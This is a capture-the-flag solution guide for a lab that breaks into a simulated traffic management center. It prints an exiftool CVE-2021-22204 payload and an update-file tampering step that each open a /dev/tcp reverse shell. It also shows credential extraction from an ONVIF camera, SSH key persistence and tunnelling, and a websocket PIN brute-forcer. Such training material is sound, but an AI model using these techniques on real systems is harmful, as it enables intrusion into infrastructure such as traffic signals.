# The Italian Job

*Solution Guide*

## Overview

In The Italian Job, the team is tasked with hacking into a Traffic Management Center (TMC) to take control of a traffic light controller. The team starts by developing a bad USB that exploits CVE-2021-22204 for exiftool. Once on the TMC network, they must exploit a ONVIF-compliant web camera that incorrectly exposes credentials to find credentials written on the whiteboard for the update workstation. Once on the update workstation, they must modify an update file with a reverse shell to gain access to the traffic controller. Finally, they must write a custom script to bruteforce the controller's PIN code on the web front panel.

## Question 1

*Token 1: Break into the TMC's media workstation and find this token in `user`'s home directory.*

*You can upload your malicious USB files as a ZIP file at `http://challenge.pccc`*

In the challenge description, we are informed that we have a copy of the media workstation in the TMC available to us at `local-media.pccc`. Let's SSH into that machine and see if we can find a vulnerability to exploit: `ssh user@local-media.pccc` with password `password`.

Once on the local media host, using `ls` to check the home directory reveals no files. Checking `ls /`, we can see the root directory does have a `/app` directory. This directory contains `/app/ingest.py`, which processes images and log files uploaded by USB. We will go over the interesting snippets below, but the full code can be found [here](../challenge/logReaderCompetitor/ingest.py).

```python
# ingest.py, Lines 17-21
DB = "/var/lib/tmc/tmc.db"
REPORT = "/var/lib/tmc/reports/image_context.csv"
USB = Path("/mnt/usb")
DCIM = USB/"DCIM"
LOGS = USB/"logs"
...
# Lines 204-228
def process(p: Path):
    if not p.is_file():
        logging.error(f"Could not process {p.absolute}. Is it a file?")
        return
    try:
        if p.parent == DCIM:
            logging.info(f"Processing image {p.absolute()}")
            insert_image(p)
            audit("image_ingested", p)
        elif p.parent == LOGS:
            s = p.suffix.lower()
            if s == ".csv":
                logging.info(f"Processing CSV log {p.absolute()}")
                insert_timing_csv(p)
                audit("log_csv_ingested", p)
            elif s in (".jsonl", ".ndjson"):
                logging.info(f"Processing json log {p.absolute()}")
                insert_timing_jsonl(p)
                audit("log_jsonl_ingested", p)
    except Exception as e:
        logging.error(f"Could not process {p.absolute()}: {e}")
        try:
            audit("error:"+repr(e), p)
        except Exception as e2:
            logging.error(f"audit() failed: {e2}")
```

In the two snippets above, we can get a rough idea for what the program is doing. It is observing the path `/mnt/usb` for new images and logs in `/mnt/usb/DCIM` and `/mnt/usb/logs`, processing those files, and saving them in a sqlite database. Understanding the purpose beyond this isn't necessary for the challenge, but if you are curious, the script maps images of traffic accidents or red light violations to the traffic signal at that time (for example, to confirm the light was actually red for a violation). 

Nothing in the application itself is actually vulnerable, so instead we should begin to review some of the libraries or other processes that the script calls. Specifically, we have a call to `exiftool` here:

```python
# ingest.py, Lines 91-108
def exif_extract(p):
    try:
        out = subprocess.check_output(
            ["exiftool", "-json", "-n", "-DateTimeOriginal",
                "-GPSLatitude", "-GPSLongitude", "-Model", 
                "-FileType", "-MIMEType", str(p)],
            stderr=subprocess.STDOUT
        )
        logging.info(f"exiftool out: {out}")
        d = json.loads(out)[0]
        logging.info(f"Retrieved exif data for {str(p)}: {d}")
        dt = _norm_ts_sqlite(d.get("DateTimeOriginal"))
        return (dt,
                d.get("GPSLatitude"), d.get("GPSLongitude"), d.get("Model"),
                d.get("FileType"), d.get("MIMEType"))
    except (subprocess.CalledProcessError, json.decoder.JSONDecodeError) as e:
        logging.error(f"Exiftool failed for {str(p)}: err={e}")
        return None, None, None, None, None, None
```

The `exiftool` software has had a few CVEs listed, including code execution, so let's check the exact version of the tool with `exiftool -ver` (note that this `-ver` option can only be found online; exiftool does not provide a help section in the command itself, at least in this version). The version is reported as `12.20`, which is vulnerable to [CVE-2021-22204](https://nvd.nist.gov/vuln/detail/CVE-2021-22204). We will use Metasploit to accomplish this for the nice reverse shell, but if you'd like to do it yourself, the exploit is relatively simple to do by hand (make sure to add your IP and port).

```none
# Place this line in a text file named payload.txt
(metadata "\c\${system(\"bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'\")};")
```

```bash
# Exploit CVE-2021-22204; creates file exploit.djvu with out payload 
djvumake exploit.djvu INFO=1,1 BGjp=/dev/null 'ANTa=payload.txt'
```

To generate the payload with Metasploit, first start the program with `msfconsole`. Next, run `search exiftool` to find the path for the exploit.



In this case, it is `exploit/unix/fileformat/exiftool_djvu_ant_perl_injection`. Now run `use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection` to select it as the exploit we are targeting. It will default to `meterpreter` as the default payload, but using `php`. Unfortunately, `php` is not installed (you can confirm by trying to run `php` on the local media host), so we will need to use a different option. We will also want to avoid meterpreter, as we will need high throughput (that will be clear in Token 2). Instead, let's use `set payload cmd/unix/reverse_bash` (make sure to run `set`, and not `use`).

Next, we can run `options` to check the IP and port for our reverse shell:



The IP likely defaults to a `172` instead of the address we want; use `set LHOST {IP}` to modify the IP address to be your `10.0.x.x` address instead. Alright, now execute `run` to generate our exploit file. You'll get the following output:

```none
[+] msf.jpg stored at /home/user/.msf4/local/msf.jpg
```

Now `/home/user/.msf4/local/msf.jpg` contains our payload. Let's test it out on our local machine, after we set up the handler for our payload. To do that, now run `use payload/cmd/unix/reverse_bash` and then set our IP address with `set LHOST {IP}` (for some reason, it doesn't default to our IP address here). If you need to switch back to the `exiftool` exploit, you can swap back and forth with `previous`. Finally, run `exploit`, and Metasploit will set up a handler in the background that listens for any incoming sessions.

Use `scp ~/.msf4/local/msf.jpg user@local-media.pccc:/mnt/usb/DCIM/` to load the file where the vulnerable script can see it, and check your `msfconsole`. You should receive a session as our payload connects back to us. If you want to see this in action on the victim, SSH into the media host and run `ps -aux`; you should see some new processes running. 

At this point, we are confident enough in our payload to run the real thing. The challenge description tells us we need to upload our USB payload at `http://challenge.pccc`.



The instructions there tell us we need to provide a ZIP file, and that they will unzip it with `unzip -o zip -d /mnt/usb`. This means we need to include the `DCIM` and `logs` directories in the zip files, so the files are unzipped in the expected format. The following commands will create the needed directories, copy in our malicious image, and create a zip file named `payload.zip` containing our new directories and their contents.

```bash
mkdir DCIM logs
cp /home/user/.msf4/local/msf.jpg ./DCIM/
zip -r payload DCIM logs 
```

Now, upload the file, and you should receive another session! Note if you upload multiple times, you'll receive multiple reverse shells, as the system clears and restarts the log processor so you don't lock yourself out.

With access gained to the network, switch to an interactive session with `sessions -i 1` (your session number may be different; if so, replace `1` with the correct session number). Now we can find the token in the home directory; note that the shell is extremely limited in capability (e.g., no tab completion) as we don't have a PTY set up. If you want to switch back to the `msfconsole`, hit `CTRL-Z` and `y` to background it.

```bash
cd /home/user
ls
cat tmcAccessToken.txt
```



In this case, the token is `PCCC{Sore_thumb_47sk15}`.

## Question 2

*Token 2: Find this token in `user`'s home directory after moving laterally from the media workstation to the update workstation.*

Now that we have access to the TMC network, we somehow need to move laterally from this device to the update workstation. We don't have any information on this network, however, so we should look for other hosts on the network. First, use `ip a` to identify what network interfaces we have. This will give output similar to the following:

```text
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
19443: eth0@if19444: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default 
    link/ether 02:42:0a:00:13:82 brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet 10.0.19.130/26 brd 10.0.19.191 scope global eth0
       valid_lft forever preferred_lft forever
19445: eth1@if19446: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default 
    link/ether 02:42:0a:00:59:8a brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet 10.0.89.138/26 brd 10.0.89.191 scope global eth1
       valid_lft forever preferred_lft forever

```

The `10.0.89.138` is the same network as our Kali host, so we will want to focus on `10.0.19.130` (again, your IP addresses will be different). Fortunately, the host has `nmap` installed already, so we can just run it directly on the host with `nmap 10.0.19.130/26`.



We can ignore `10.0.19.130`, as that is the media-workstation running our reverse shell. That leaves `10.0.19.132` with SSH on `22` and `10.0.19.133` with HTTP on `80`. The `10.0.19.132` has `update-workstation` in the hostname, but right now we have no credentials for SSH. However, the `10.0.19.133` has the hostname `cam`, so let's start there. However, our current shell is extremely limited; let's set up some port forwarding so we can interact with the site directly.

The easiest way to do this will be to just generate our own SSH key, and place the public key inside the authorized keys list on the media workstation. First, we will generate our private and public key pair. On the Kali box, run `ssh-keygen`, and accept the defaults by pressing the enter key until the command is finished.

Next, we need to copy the key over to the server. Copy the contents of the public key either by opening the file manually, or using `xclip`: `cat ~/.ssh/id_ed25519.pub | xclip -selection clipboard`. 

Now, on the reverse shell running on the media workstation, append the key to the authorized list: `echo "Paste_key_here" >> /home/user/.ssh/.authorized_keys`. Note the use of `>>` to append, instead of overwriting.

You can now use `ssh` to directly connect to the media workstation, either via IP address, or using the hostname: `ssh user@media-workstation.pccc`. Note I will use hostnames where possible to limit needing to change commands to contain the right IP addresses, but when worked through normally, it is more likely IP addresses will be used as extracting the hostnames would require extra work. 

With SSH access resolved, lets set up the port forwarding. On the Kali host, run the following:

```bash
ssh -N -L 18080:cams.pccc:80 user@media-workstation.pccc
```

Now whenever we visit `127.0.0.1:18080` on Kali, we will instead reach `cams.pccc:80` through our tunnel. Let's go ahead and check out the camera site now in Firefox by visiting `http://127.0.0.1:18080`.



Reading through the text, it turns out that this is a ONVIF-compliant camera. ONVIF is a bit of a pain to work with like this, as it uses [SOAP](https://www.w3schools.com/xml/xml_soap.asp) XML messages. One option is to use a library like `onvif-zeep` for Python, but those can be hard to work with when we are trying to break into the camera. Instead, I found that AI is really good at generating these messages. We still need to have a rough understanding of how ONVIF works, of course, but we don't actually need to get into the weeds of the format. Instead, use a reference like [this](https://www.onvif.org/ver10/device/wsdl/devicemgmt.wsdl) to find out what is possible, then have AI generate the request.

Now, to begin, ONVIF devices should provide a `/onvif/device_service` url that implements all of the actions listed in the [formal spec](https://www.onvif.org/ver10/device/wsdl/devicemgmt.wsdl). This camera will end up not quite meeting those expectations, but all of the important ones will be implemented. Let's start by asking the device for the available capabilities with the following XML and subsequent curl command:

```XML
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"
               xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
  <soap:Body>
    <tds:GetCapabilities>
      <tds:Category>All</tds:Category>
    </tds:GetCapabilities>
  </soap:Body>
</soap:Envelope>
```

```bash
curl -H 'Content-Type: application/soap+xml;' --data-binary @soap.xml http://127.0.0.1:18080/onvif/device_service
```

To do this cleanly, use `gedit soap.xml &` (or another editor of your choice) to edit the SOAP request. You can then run the `curl` command; we can reuse the same `curl` command and copy-paste new XML as we need. We get the following response:



```XML
<?xml version='1.0' encoding='utf-8'?>
<ns0:Envelope xmlns:ns0="http://www.w3.org/2003/05/soap-envelope" xmlns:ns1="http://www.onvif.org/ver10/device/wsdl"><ns0:Body><ns1:GetCapabilitiesResponse><Capabilities xmlns:tt="http://www.onvif.org/ver10/schema"><Device><XAddr>http://127.0.0.1:18080/onvif/device_service</XAddr></Device><Media><XAddr>http://127.0.0.1:18080/onvif/media</XAddr></Media><PTZ><XAddr>http://127.0.0.1:18080/onvif/ptz</XAddr></PTZ></Capabilities></ns1:GetCapabilitiesResponse></ns0:Body></ns0:Envelope>
```

So the camera provides `/onvif/device_service`, which we just used, `/onvif/media`, and `/onvif/ptz`. The media endpoint is used to document the various endpoints or other values associated with the actual video output, while PTZ stands for "Pan, Tilt, Zoom". For now, let's run a quick check on `/onvif/media`:

```bash
curl -X POST http://127.0.0.1:18080/onvif/media 
```

Unfortunately, this endpoint requires authentication, with the server responding with "Authentication Required". Authentication on web cameras like this is often a bit sporadic; I believe ONVIF offers their own auth in the SOAP itself, but many require HTTP basic or digest (and some require multiple)! We should check the headers to see if it tells us; we can show the headers by giving the `-v` option to curl.

```bash
curl -X POST -v http://127.0.0.1:18080/onvif/media
*   Trying 127.0.0.1:18080...
* Connected to 127.0.0.1 (127.0.0.1) port 18080
* using HTTP/1.x
> POST /onvif/media HTTP/1.1
> Host: 127.0.0.1:18080
> User-Agent: curl/8.14.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 401 UNAUTHORIZED
< Server: Werkzeug/3.1.3 Python/3.10.12
< Date: Sat, 23 Aug 2025 22:55:27 GMT
< WWW-Authenticate: Basic realm="ONVIF Media"
< Content-Type: text/html; charset=utf-8
< Content-Length: 23
< Connection: close
<
* shutting down connection #0
Authentication required
```

Fortunately for us, it just wants Basic auth, which is probably the easiest for us to use. Unfortunately, we have no idea what the username or password should be! Taking a look at the `device_service` [spec](https://www.onvif.org/ver10/device/wsdl/devicemgmt.wsdl) for the phrase `password` reveals a couple interesting options, including this one:

```none
[GetUsersResponse]
    User - optional, unbounded; [User]
    Contains a list of the onvif users and following information is included in each entry: username and user level.
        Username [string]
            Username string.
        Password - optional; [string]
            Password string.
        UserLevel [UserLevel]
            User level string.
                - enum { 'Administrator', 'Operator', 'User', 'Anonymous', 'Extended' }
        Extension - optional; [UserExtension]
```

It would be really great if we can just *ask* for the password! Here is the SOAP:

```XML
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"
               xmlns:tds="http://www.onvif.org/ver10/device/wsdl">
  <soap:Body>
    <tds:GetUsers/>
  </soap:Body>
</soap:Envelope>
```

Paste that into the `soap.xml` file, and then rerun the `curl` command. This gets the following response:

```XML
<?xml version='1.0' encoding='utf-8'?>
<ns0:Envelope xmlns:ns0="http://www.w3.org/2003/05/soap-envelope" xmlns:ns1="http://www.onvif.org/ver10/device/wsdl" xmlns:ns2="http://www.onvif.org/ver10/schema"><ns0:Body><ns1:GetUsersResponse><ns1:User><ns2:Username>admin</ns2:Username><ns2:Password>secretTMCCamAdmin!2025</ns2:Password><ns2:UserLevel>Administrator</ns2:UserLevel></ns1:User></ns1:GetUsersResponse></ns0:Body></ns0:Envelope>
```

Wow, thanks! The XML does indeed include the credentials `admin` / `secretTMCCamAdmin!2025`. Now we can query the media endpoint using the [formal spec](https://www.onvif.org/ver10/media/wsdl/media.wsdl). Let's check `GetStreamUri`, which gives us a link to a livestream if available. We will use the same `soap.xml` file, but need to slightly change our curl command to use the auth and new endpoint.

```XML
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"
               xmlns:trt="http://www.onvif.org/ver10/media/wsdl"
               xmlns:tt="http://www.onvif.org/ver10/schema">
  <soap:Body>
    <trt:GetStreamUri>
      <trt:StreamSetup>
        <tt:Stream>RTP-Unicast</tt:Stream>
        <tt:Transport>
          <tt:Protocol>RTSP</tt:Protocol>
        </tt:Transport>
      </trt:StreamSetup>
      <trt:ProfileToken>Profile_1</trt:ProfileToken>
    </trt:GetStreamUri>
  </soap:Body>
</soap:Envelope>
```

```bash
curl -u 'admin:secretTMCCamAdmin!2025' -H 'Content-Type: application/soap+xml;' --data-binary @soap.xml http://127.0.0.1:18080/onvif/media
```

Running this gives us the following output:

```XML
<?xml version='1.0' encoding='utf-8'?>
<ns0:Envelope xmlns:ns0="http://www.w3.org/2003/05/soap-envelope" xmlns:ns1="http://www.onvif.org/ver10/media/wsdl" xmlns:ns2="http://www.onvif.org/ver10/schema"><ns0:Body><ns1:GetStreamUriResponse><ns1:MediaUri><ns2:Uri>http://127.0.0.1:18080/mjpeg</ns2:Uri><ns2:InvalidAfterConnect>false</ns2:InvalidAfterConnect><ns2:InvalidAfterReboot>false</ns2:InvalidAfterReboot><ns2:Timeout>PT10S</ns2:Timeout></ns1:MediaUri></ns1:GetStreamUriResponse></ns0:Body></ns0:Envelope>
```

There is a stream available at `http://127.0.0.1:18080/mjpeg` (note this actually isn't ONVIF-compliant either, as this isn't an RTSP link, but that actually makes things easier for us). Since the data will now be graphical, we will want to use Firefox or another browser again. Firefox will prompt you to enter the username and password: `admin` / `secretTMCCamAdmin!2025`.



We can now see what appears to be the inside of the TMC; however, there is nothing interesting for us to look at. Now we need to turn to the PTZ feature, and see if we can find something off screen. The [formal spec](https://www.onvif.org/ver20/ptz/wsdl/ptz.wsdl) gives us a `ContinuousMove` feature, which we can use with the following XML to pan left one degree.

```XML
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope"
               xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl"
               xmlns:tt="http://www.onvif.org/ver10/schema">
  <soap:Body>
    <tptz:ContinuousMove>
      <tptz:ProfileToken>Profile_1</tptz:ProfileToken>
      <tptz:Velocity>
        <tt:PanTilt x="-1" y="0.0"/>
      </tptz:Velocity>
    </tptz:ContinuousMove>
  </soap:Body>
</soap:Envelope>
```

We will also need to change the endpoint to `/onvif/ptz` in our curl command:

```bash
curl -u 'admin:secretTMCCamAdmin!2025' -H 'Content-Type: application/soap+xml;' --data-binary @soap.xml http://127.0.0.1:18080/onvif/ptz
```

If you still have the live feed open, you should see the image pan slightly to the left, revealing more of the room. Continue panning left by running the curl command until you can fully see a whiteboard.



On the whiteboard, we can now see a password for the workstation: `G3ZQD4XH`. Before we can SSH in, however, we will need to set up a new tunnel. In the terminal with the reverse shell, use `<CTRL-Z>` to background the current process and upload the zip file again on `challenge.pccc` to start a new session. In that new session, we can set up our new proxy to port `22` on `172.20.0.5` via `18081` on `localhost`. 

```bash
ssh -N -L 18081:update-workstation.pccc:22 user@media-workstation.pccc
```

With this new tunnel, in a different Kali terminal, we can connect to the update workstation with the following SSH command and the password `G3ZQD4XH`.

```bash
ssh 127.0.0.1 -p 18081
```

Now we just need to use `ls` and `cat updateAccessToken.txt` to find the token.



In this case, the token is `PCCC{Fly_on_the_wall_54za74}`.

## Question 3

*Token 3: Find this token in `/root` after gaining access to the network switch in the traffic cabinet.*

*You can trigger the TMC employees to load the update onto a USB and install it in the cabinet by visiting `http://challenge.pccc`.*

Now that we are on the update workstation, we need to figure out how the updates occur. Unlike before, we don't have access to a local copy of the device we are breaking into, so debugging any issues/problems may be much harder. Let's start by taking a look at the home directory.

The home directory contains the standard `Documents`, `Downloads`, `Music`, and other folders typical of a standard Ubuntu installation. If we check these, the `Downloads` directory contains `update.tcu`, which is exactly what we are looking for. Let's create a copy of that file with `cp ~/Downloads/update.tcu ~/update.tcu.bak`, just in case, and then let's copy it over to our Kali box for further analysis. To do that, use `exit` and then run `scp -P 18081 127.0.0.1:~/Downloads/update.tcu ./` to copy it over SSH (password is `G3ZQD4XH`).

We can start with `file` to identify the file type:

```bash
file update.tcu
update.tcu: Zip archive data, made by v2.0 UNIX, extract using at least v2.0, last modified Aug 20 2025 03:42:22, uncompressed size 279, method=deflate
```

The file is actually a ZIP archive. To avoid mixing it up with another files in our home directory, let's create a subdirectory, move it in there, and unzip it.

```bash
mkdir updateFiles
mv update.tcu updateFiles/
cd updateFiles/
unzip update.tcu
ls -la
```

These commands reveal the files `files/traffic.conf`, `files/update.sh`, `install.sh`, `manifest.json`, and a hidden file `.hashes`. This is a fairly common way for field devices like traffic controllers or other devices to receive updates. First, let's check the manifest and `install.sh`:

```json
{
  "device_model": "BlueFlex-Switch-331",
  "fw_version": "3.6.5",
  "min_os": "linux-5.4",
  "hash_alg": "sha1",
  "files": [
    {"path": "files/traffic.conf"},
    {"path": "files/update.sh"}
  ],
  "exec_order": ["files/update.sh"],
  "created_at": "2025-07-15T11:42:00Z"
}
```

```bash
#!/usr/bin/env bash
set -euo pipefail
jq -r '.exec_order[]?' "$TCU_STAGING/manifest.json" | while read -r s; do
  bash "$TCU_STAGING/$s"
done
```

So this is for a switch in the cabinet, and it states the hashes are `sha1`, with the file `files/update.sh` being executed by `install.sh`. Checking `.hashes`, we see:

```none
sha1  files/traffic.conf  64e5cf23b652d4df1d670a6326cf812fdfed5f9b
sha1  files/update.sh  4f6a264ce64eb78dd9437edce869b3fdb4d580c4
```

Notably, the `install.sh` file is missing from the hashes. It's possible that since `install.sh` never changes between updates that the hash is hardcoded when checked, so we should not edit that file. Instead, we can edit `files/update.sh`, update the `sha1` hash, and replace the original update file with our new malicious ones. With any luck, the employee will use the tampered file for the update.

We already have a workable payload selected in our msfconsole (`payload/cmd/unix/reverse_bash`). We can get the raw payload with `generate -f raw`. This outputs the following (although your IP and port may differ): `bash -c '0<&168-;exec 168<>/dev/tcp/10.0.89.141/4444;sh <&168 >&168 2>&168'`. We can also save the file with `-o`, so our full command will be:

```bash
generate -f raw -o ~/updateFiles/files/update.sh
```

Now we just need to update the `sha1` hash. We can compute the hash with `sha1sum`. If your payload does not match mine, your hash will be different.

```bash
sha1sum files/update.sh
1fd52386c9b5f381159810cd21a25d8d0c8e59b7  files/update.sh
```

Open the `.hashes` file with your editor of choice (e.g., `gedit`), and paste over the old hash with our new hash. Now we can repackage our update file with the changed files with `zip -r update.tcu .hashes files`. Now just copy the file over the original in the `Downloads` folder of the update workstation with `scp -P 18081 ./update.tcu 127.0.0.1:~/Downloads/update.tcu`.

With the file replaced, we need to trigger the update. Make sure your `msfconsole` has the reverse shell handler running, then visit `http://challenge.pccc` in your browser, and click the button marked `ZZZ` to "Take a short nap and wait for the TMC employees to perform their updates." If done correctly, you should see a new session open in your metasploit console.



Once on the cabinet, use `ls /root; cat /root/cabinetAccessToken.txt` to get the token. In this case, the token is `PCCC{Popping_shells_in_my_sleep_68Mw17}`.

## Question 4

*Token 4: Break into the traffic controller's web panel and change the signal timings so that `5th street` has at least 10 minutes of green, and the other lights have the shortest green time allowed.*

*You can trigger the getaway from `http://challenge.pccc`; if successful, the token will be provided on that site*

Once again we find ourselves on a pivot box with a terminal with no PTY (although given how open-ended the last exploit was, there's probably a few ways to fix that). We need to examine the network again, and `nmap` is still available. First, use `ip a` to find our interfaces; in this case, the new network is `10.0.28.6/26`

```bash
nmap 10.0.28.6/26
```



We are currently located on the traffic switch at `10.0.28.6`, so that means the host we are interested in this time would be the `trafficcontroller` at `10.0.28.4`. Just like before, we will want to create a tunnel with SSH for us to communicate with the site; the steps, listed below, are the same as before but with new values to fit for this network. Note we are root here, not user (run `whoami`). 

```bash
# On the kali box, copy the public key
cat ~/.ssh/id_ed25519.pub | xclip -selection clipboard
```

```bash
# Back on the traffic-switch, paste the key
echo "Paste_key_here" >> /root/.ssh/authorized_keys
```

```bash
# Finally, on Kali, start the tunnel
ssh -N -L 18082:traffic-controller.pccc:80 root@traffic-switch.pccc
```

Now by visiting `http://127.0.0.1:18082` in our browser, we can see the front panel for a traffic signal controller.



We can watch the signals change in real time under the Ring 1/2 headings, and we can even make pedestrian calls by pressing `2` and `6`. However, we need to figure out how to reconfigure the `Min` time (to what values, we will discuss later). Press the menu button to open a new page:



Pressing `2` to open the configuration menu presents a login screen:



The controller only has a 4-digit PIN. Trying `1111`, we can see it presents "Incorrect", and we need to press any key to dismiss the "Incorrect" before trying a new PIN.



We can try to bruteforce this PIN. Right click the page and click "View Page Source" to view the HTML and the JavaScript for the site. Also take note of the following comment:

```html
...
  </style>
</head>
<body class="p-3">
  <!-- Pssst! It's possible to completely mess things up for yourself here! If you do, visit /reset -->
  <div class="device-wrap">
    <div class="device">
      <div class="bezel">
...
```

If we need to reset the controller, we can do so by visiting `/reset`. Moving on, the JavaScript controlling the panel can be found as well:

```JS
  (() => {
    const $panel = document.getElementById('panel');
    const $keys = document.querySelectorAll('.keypad .key');
    let ws;

    function connect(){
      const proto = location.protocol === 'https:' ? 'wss' : 'ws';
      ws = new WebSocket(`${proto}://${location.host}/ws`);

      ws.onopen = () => console.log('[ws] connected');
      ws.onmessage = (e) => {
        const msg = e.data;
        // If it's JSON (ack/key events), handle; otherwise treat as panel text
        if (msg && msg[0] === '{'){
          try {
            const data = JSON.parse(msg);
            if (data.type === 'ack'){
              const btn = document.querySelector(`.key[data-key="${CSS.escape(data.key)}"]`);
              if (btn){ btn.classList.remove('pressed'); btn.classList.add('flash'); setTimeout(()=>btn.classList.remove('flash'), 180); }
              return;
            }
            if (data.type === 'key'){
              // broadcast from other clients; optional visual pulse
              const btn = document.querySelector(`.key[data-key="${CSS.escape(data.key)}"]`);
              if (btn){ btn.classList.add('flash'); setTimeout(()=>btn.classList.remove('flash'), 120); }
              return;
            }
          } catch(_e) {}
        }
        $panel.textContent = msg;
      };
      ws.onclose = () => setTimeout(connect, 1200);
      ws.onerror = () => { try{ ws.close(); }catch(_e){} };
    }

    function sendKey(key){
      if (ws && ws.readyState === 1){
        try { ws.send(JSON.stringify({type:'key', key})); } catch(_e){}
      }
    }

    $keys.forEach(btn => {
      btn.addEventListener('click', () => {
        const key = btn.dataset.key || btn.textContent.trim();
        btn.classList.add('pressed');
        sendKey(key);
      });
    });

    connect();
  })();
```

The controller uses web sockets to function, constantly rewriting the front panel and sending keystrokes to be processed (on a real controller, this is a mirror of the real front panel, and any key presses would be reflected there). You can observe this traffic in the Firefox debugger network panel as well, if you'd like.

The following script brute forces the code in about 9 minutes. Make sure to start the script from the menu, as the script needs to read the display, and might not start correctly if started with the login panel already open.

```python
from websocket import create_connection
import json
import time

t0 = time.perf_counter()

# Change port on the following line if you are using a different port
ws = create_connection("ws://localhost:18082/ws")

ws.send(json.dumps({"type": "key", "key": "MENU"}))

while "STATUS" not in ws.recv() or "AUTHENTICATION" in ws.recv(): 
    # Wait for menu to sync after switching from STATUS or LOGIN
    pass

ws.send(json.dumps({"type": "key", "key": "2"}))

while "PIN" not in ws.recv():
    # Wait for LOGIN to be ready
    pass

for i in range(0, 9999):
    value = str(i).zfill(4) # Format like 0000, 0001, 0011, 0111, 1111
    print(f"Trying {value}")

    for c in value:
        # No menu sync needed after each key, since it's all going to the same menu
        ws.send(json.dumps({"type": "key", "key": c}))

    # Wait to sync to ensure we don't miss INCORRECT
    while "* * * *" not in ws.recv():
        pass

    if "INCORRECT" not in ws.recv():
        print(f"PIN is {value}")
        break
    
    # Clear incorrect, wait for it to be cleared, and continue
    ws.send(json.dumps({"type": "key", "key": "ENTER"}))
    while "* * * *" in ws.recv():
        pass

ws.close()
print(f"Took {time.perf_counter() - t0:.6f}s")
```

After about 9 minutes, the script will reveal the PIN is `2614`, and the controller will be marked with `PANEL LOCK: UNLOCKED` in the top right.



With the controller unlocked, we can now press `MENU` and `2` to open the configuration menu. This presents us with a list of `MIN GREEN` and `MAX GREEN`. We know we want to make the through for `5th street` have at least 10 minutes of green, and all other lights to be green for as little as possible. The panel mentions it is a `NEMA 8-phase` controller, and a quick search online for something like `NEMA phase diagram` will you give a diagram like the following from the [Federal Highway Administration](https://ops.fhwa.dot.gov/publications/fhwahop08024/chapter4.htm).



The even numbers are our straights (and rights), while the odd number phases are lefts. It is standard for the major street to be on 2 and 6, and minor on 4 and 8. We know 5th street is our major street, so we can assume that we want phases 2 and 6. To keep things simple, we will make 2 and 6 have `999`, and every other light have `0`, which shouldn't be allowed but works just fine (the grader will accept anything lower than 5). Hit enter to switch which phase is being edited. You can do the same for max time, but the grader only checks min.

Note that, just like a real controller, a phase won't update the min time until the next phase starts. Changes won't take effect until you return to the menu, but if you do save, for example, Phase 5 as `999` and Phase 5 starts, the controller will run the full 999 seconds. This is where you would want to hit the `/reset` endpoint (*note this will lock the controller again*).

The following image shows the status pane after changing all the min/max times. Note that I left it running for a bit before taking the screenshot to demonstrate, and Phases 2 and 6 have been green for over 6 minutes. If you want to see how the other signals instantly change from green to yellow to red, use `10` for Phases 4 and 6 instead of `999`.



Now we just need to run our grader script by visiting `http://challege.pccc` and clicking the `Drive!` button under the heading that reads "Heist team is almost ready for their get-away. If you're confident you've hacked the traffic lights, we'll copy your work to the other controllers."



In this case, the token is `PCCC{Want_all_greens_58Fw63}`.